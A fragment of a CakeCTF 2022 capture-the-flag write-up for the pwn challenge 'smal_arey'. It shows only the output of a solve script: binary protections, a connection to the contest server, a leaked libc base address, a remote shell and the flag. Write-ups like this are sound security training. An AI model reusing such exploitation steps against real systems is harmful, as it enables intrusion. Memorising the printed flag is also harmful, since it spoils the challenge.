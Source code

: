 ```
$ python solve.py
[*] '/home/mc4nf/ctf/cakectf/2022/pwn/smal_arey/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to pwn1.2022.cakectf.com on port 9002: Done
libc_base = 0x7faa43604000
[*] Switching to interactive mode
$ ls
chall
flag-c665afc224a93b0c2e4cf82abfedf180.txt
$ cat flag*
CakeCTF{PRE01-C. Use parentheses within macros around parameter names}
```
### CakeCTF{PRE01-C. Use parentheses within macros around parameter names}
